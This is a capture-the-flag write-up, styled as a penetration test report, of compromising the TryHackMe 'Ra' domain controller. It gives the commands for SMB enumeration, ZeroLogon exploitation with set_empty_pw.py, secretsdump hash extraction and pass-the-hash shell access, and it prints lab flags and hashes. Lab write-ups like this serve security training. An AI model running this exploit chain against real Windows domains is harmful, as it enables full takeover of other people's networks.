





# Penetration Test Report: Windcorp Domain Compromise via ZeroLogon
Executive Summary

**Target:** 10.64.183.52 (Domain Controller: FIRE.windcorp.thm)
**Domain:** windcorp.thm
**Date:** November 2025

A comprehensive penetration test was conducted against the Windcorp domain, culminating in full domain administrator compromise via the **ZeroLogon (CVE-2020-1472) vulnerability.** The attack path involved **web enumeration, weak password reset mechanisms, SMB enumeration, and exploitation of a critical Windows Netlogon flaw.** All three target flags were successfully captured, and full control of the Active Directory domain was established.
Phase 1: Reconnaissance and Enumeration
1.1 Network Scanning

### An aggressive Nmap scan revealed the target as a Windows Domain Controller:
bash

    nmap -sC -sV -p- -T4 -oA scan1.txt 10.64.183.52

## Key Findings:

    Port 53: DNS service (Simple DNS Plus)
    Port 80: Microsoft IIS 10.0 (Windcorp website)
    Port 88: Kerberos authentication
    Ports 139/445: SMB file sharing
    Port 389/636: LDAP services
    Port 3389: RDP (Terminal Services)
    Multiple XMPP/Jabber ports (5222-5276): Ignite Realtime Openfire
    OS Detection: Windows Server 2019 (10.0.17763)

## Domain Information Extracted:

    Domain: windcorp.thm
    DC Name: FIRE
    NetBIOS Domain: WINDCORP
    DNS Domain: windcorp.thm

## 1.2 Web Application Analysis

The website at http://10.64.183.52 revealed:

    Password reset functionality at /reset.asp
    Email enumeration via page source containing @fire.windcorp.thm addresses
    User: lilyle discovered in the system

## Hosts File Update:
text

10.64.183.52 windcorp.thm fire.windcorp.thm

Phase 2: Initial Access via Weak Password Reset
2.1 Password Reset Exploitation

The password reset page was vulnerable to social engineering/credential guessing:

Security Question: "What is/was your favorite pet's name?"
Answer Found: Sparky

Result: Password for lilyle was reset to: ChangeMe#1234
2.2 SMB Enumeration with Compromised Credentials

### Using smbmap to enumerate shares:
bash

smbmap -u lilyle -p ChangeMe#1234 -H windcorp.thm

## Accessible Shares:

    IPC$ (READ ONLY)
    NETLOGON (READ ONLY)
    Shared (READ ONLY)
    SYSVOL (READ ONLY)
    Users (READ ONLY)

# Flag 1 Discovery:

smbmap -u lilyle -p ChangeMe#1234 -H windcorp.thm --download "Shared/Flag 1.txt"

### Flag 1: THM{466d52dc75a277d6c3f6c6fcbc716d6b62420f48}
2.3 Further SMB Analysis

The Shared folder contained multiple Spark client installation files, hinting at potential vulnerabilities:

    spark_2_8_3.deb
    spark_2_8_3.exe
    spark_2_8_3.dmg

# Phase 3: Privilege Escalation via ZeroLogon
## 3.1 Vulnerability Identification

The Windows Server 2019 build (10.0.17763) was vulnerable to CVE-2020-1472 (ZeroLogon), a critical privilege escalation flaw in the Netlogon Remote Protocol that allows attackers to impersonate the Domain Controller.
3.2 ZeroLogon Exploitation

Exploit Used: set_empty_pw.py (from the ZeroLogon toolkit)

### Step 1: Reset DC Machine Account Password
bash

python3 set_empty_pw.py FIRE 10.64.183.52

Successful Output:
text

Success! DC should now have the empty string as its machine password.

### Step 2: Dump Domain Hashes with secretsdump.py
bash

sudo python3 secretsdump.py -no-pass -just-dc 'WINDCORP/FIRE$'@10.64.183.52

## Extracted Administrator hash: bfa4cae19504e0591ef0a523a1936cd4
### 3.3 Administrative Access via Pass-the-Hash

Using wmiexec.py:
bash

wmiexec.py -hashes :bfa4cae19504e0591ef0a523a1936cd4 'WINDCORP/Administrator'@10.64.183.52

Successful Shell Access:
Obtained interactive shell with NT AUTHORITY\SYSTEM privileges.
Phase 4: Post-Exploitation and Flag Capture
## 4.1 File System Enumeration

    User Directory Listing:
    text
    C:\Users\Administrator\Desktop\Flag3.txt
    C:\Users\buse\Desktop\Flag 2.txt
    C:\scripts\checkservers.ps1
    4.2 Flag Retrieval
    Flag 2:
    cmd
    type "C:\Users\buse\Desktop\Flag 2.txt"
    Flag 2: THM{6f690fc72b9ae8dc25a24a104ed804ad06c7c9b1}
    Flag 3:
    cmd
    type C:\Users\Administrator\Desktop\Flag3.txt
    Flag 3: THM{ba3a2bff2e535b514ad760c283890faae54ac2ef}

# 4.3 Additional Artifacts Found

- User Hashes: Extracted from memory dumps
- SMB Configuration: Multiple user directories accessible
- Script Directory: C:\scripts\ containing PowerShell scripts
- XMPP/Openfire Services: Potential attack surface for internal communication

# Vulnerability Chain Analysis
- Weak Authentication Mechanism: Password reset functionality with easily guessable security questions
- Insufficient Access Control: Standard users could access sensitive SMB shares
- Critical Unpatched Vulnerability: ZeroLogon (CVE-2020-1472) allowed complete domain compromise
- Credential Exposure: Plaintext credentials and hashes accessible post-compromise

# Recommendations for Remediation
- Immediate Actions (Critical):
- Apply ZeroLogon Patch: Install Microsoft update for CVE-2020-1472 immediately
- Reset All Credentials: Change all domain passwords, especially DC machine accounts
- Disable Weak Password Reset: Implement MFA for password recovery or disable web-based reset
- Implement Netlogon Secure Channel: Enforce secure RPC connections for all domain controllers

# Medium-Term Improvements:
- Network Segmentation: Isolate domain controllers from user-accessible networks
- SMB Access Control: Implement stricter share permissions following least privilege
- Monitoring: Enable auditing for Netlogon authentication events
- Patch Management: Establish regular patch cycles for critical vulnerabilities
- Long-Term Security Enhancements:
- Credential Guard: Implement Windows Defender Credential Guard
- LAPS: Deploy Local Administrator Password Solution
- Regular Penetration Testing: Schedule quarterly security assessments
- Security Awareness Training: Educate users on password security

# Conclusion

The Windcorp domain was completely compromised due to a combination of weak authentication controls and an unpatched critical vulnerability (ZeroLogon). The attack demonstrated how initial low-privilege access could escalate to full domain control within hours. The findings underscore the importance of regular patching, proper access controls, and defense-in-depth security strategies.

Total Flags Captured: 3/3
Domain Compromise: Complete
Attack Duration: Approximately 4 hours
Risk Level: Critical

This report documents a controlled penetration test conducted for educational purposes within the TryHackMe "Ra" room environment. All findings and recommendations should be reviewed by qualified security professionals before implementation in production environments.

